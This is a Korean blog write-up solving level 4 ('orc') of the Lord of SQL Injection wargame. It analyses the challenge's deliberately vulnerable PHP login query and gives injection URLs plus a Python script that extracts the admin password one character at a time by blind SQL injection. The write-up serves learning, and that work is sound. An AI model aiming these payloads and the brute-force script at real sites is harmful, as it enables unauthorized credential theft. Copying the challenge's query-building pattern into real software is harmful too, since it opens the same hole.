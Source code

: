 ```yaml
---
title: Lord of SQL Injection Write Up No.4 Orc
date: 2019-08-15 11:23:17
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 4번 orc 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

기본적인 Blind SQL Injection을 할 수 있는지 확인한다.

### 필요 배경 지식

#### addslashes

```php
string addslashes ( string $str )
```

- `addslashes` 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.
- php의 `addslashes` 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

#### Blind SQL Injection

4번 orc 문제같은 경우 실제 `pw`값을 알아내야 한다. 이때 화면에 `Hello admin`이라는 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 하나씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

### 소스 코드 분석

orc 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello admin"` 이라는 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. `SUBSTR` 함수 활용

   ```url
   http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or id='admin' and length(pw)=8-- -
   ```

   ```sql
   select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8-- -'
   ```

   이는 `"Hello admin"`을 출력하게 만든다. 즉, `pw`는 8자리임을 알아낸 것이다.

   이와 비슷한 방법으로 쿼리를 조작하면 `pw` 역시 전부 알아낼 수 있다.

   하지만 이를 반복하여 8자리를 모두 알아내는 것은 사람이 하기 버거우므로 python 코드를 작성하여 풀면 편하다.

   ```python
   import urllib.request # python3의 내장 라이브러리인 urllib의 request 모듈을 사용할 수 있도록 이 코드에 불러온다.
   from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

   key = "" # pw값을 저장할 문자열 변수
   for i in range(1, 9): # 8자리임을 알아냈으므로 i에는 1부터 8까지 들어가도록 반복문을 구성
       for j in range(32, 127): # ASCII Code에서 화면에 출력 가능한 문자의 10진수 범위는 32부터 126까지이다.
           url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" # 공격할 URL에서 변하지 않는 부분이다.
           data = "' or id='admin' and substr(pw, 1, {})='{}'#".format(
               str(i), key + chr(j)) # 반복문을 진행하며 계속 다른 문자가 들어갈 문자열이다.
           print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
           data = quote(data) # URL Encoding을 해 준다.
           re = urllib.request.Request(url + data) # 1행에서 불러온 request 모듈의 Request 클래스를 통해 Request 객체를 만든다.

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다.
           re.add_header(
               "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
           ) # re 객체의 header에 Cookie로 본인이 로그인한 클라이언트의 PHPSESSID를 추가한다. 이것이 없으면 페이지가 login_chk()에 걸려 그 다음 처리를 하지 않고 <script>location.href='./';</script> 만 응답한다.

           req = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

           if str(req.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
               key += chr(j).lower() # key 변수 뒤에 ASCII Code로 j값에 해당하는 문자를 붙인다.
               print(key) # key를 출력한다.
               break # i번째 위치의 문자를 찾았으므로 반복문을 탈출한다.
   print(key) # 반복문이 끝나면 최종적으로 찾아낸 8글자 key를 출력한다.
   ```

   이러한 코드를 실행하면 결과값으로 `295d5844` 를 출력한다.
   이를 GET방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
   ```
